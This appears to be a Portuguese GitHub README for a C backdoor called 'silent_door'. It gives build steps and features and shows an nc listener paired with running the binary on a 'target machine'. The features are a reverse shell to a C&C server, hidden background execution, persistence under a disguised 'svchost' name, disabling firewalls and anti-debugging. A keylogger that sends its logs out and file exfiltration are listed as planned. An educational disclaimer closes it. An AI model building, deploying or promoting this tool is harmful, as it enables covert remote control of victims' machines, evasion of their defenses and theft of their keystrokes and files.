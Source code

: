 # silent_door

Um backdoor clássico escrito na linguagem C, com foco em portabilidade e aprendizado.

Este projeto está em constante desenvolvimento.

---

## Compilação

Primeiro, clone o repositório:
```bash
git clone https://github.com/mrx6SO/silent_door
cd silent_door
```

### Dependências (Linux)
Para compilar em sistemas baseados em Debian (Ubuntu, etc.), você precisará das ferramentas de compilação e da biblioteca `libx11-dev`.
```bash
sudo apt update
sudo apt install build-essential libx11-dev
```

### Usando o Makefile
O projeto utiliza um `Makefile` para automatizar a compilação para Linux e Windows (via cross-compilation).

*   **Para compilar a versão Linux:**
    ```bash
    make linux
    ```
    Isso gerará o executável `silent_door_linux`.

*   **Para compilar a versão Windows (requer MinGW):**
    ```bash
    # Instale o cross-compiler MinGW
    sudo apt install mingw-w64
    
    # Compile
    make windows
    ```
    Isso gerará o executável `silent_door.exe`.

---

## Funcionalidades

### Implementadas
*   **Conexão Reversa:** Estabelece um shell reverso para um servidor C&C.
*   **Multiplataforma:** Código portável entre Linux e Windows com compilação condicional.
*   **Modo Daemon/Background:** Executa de forma oculta em segundo plano.
*   **Persistência Simples:** Copia-se para um diretório do sistema (`/usr/bin/svchost` no Linux).
*   **Evasão de Firewall:** Tenta desabilitar `iptables` (Linux) ou o Firewall do Windows.
*   **Técnicas Anti-Análise:** Inclui detecção básica de depuradores.

### Em Desenvolvimento
*   Comunicação Criptografada (TLS/SSL).
*   Mecanismo de persistência avançado (Registro do Windows, systemd no Linux).
*   Keylogger passivo com envio de logs.
*   Funcionalidades de Upload/Download de arquivos.
*   Mapeamento da rede interna da máquina alvo.

---

## Uso Básico

1.  **No seu servidor**, inicie um listener na porta configurada (padrão: 3389):
    ```bash
    nc -lvp 3389
    ```

2.  **Na máquina alvo**, execute o backdoor:
    ```bash
    ./silent_door_linux
    ```

3.  A conexão será estabelecida e um shell remoto estará disponível no seu servidor.

---

## Aviso Legal

Este projeto foi criado para fins educacionais e de estudo em segurança da informação. O autor não se responsabiliza pelo mau uso desta ferramenta. Use-a apenas em ambientes controlados e com permissão explícita.

**Referencie o autor original (`mrx6SO`) caso utilize ou redistribua este código.**
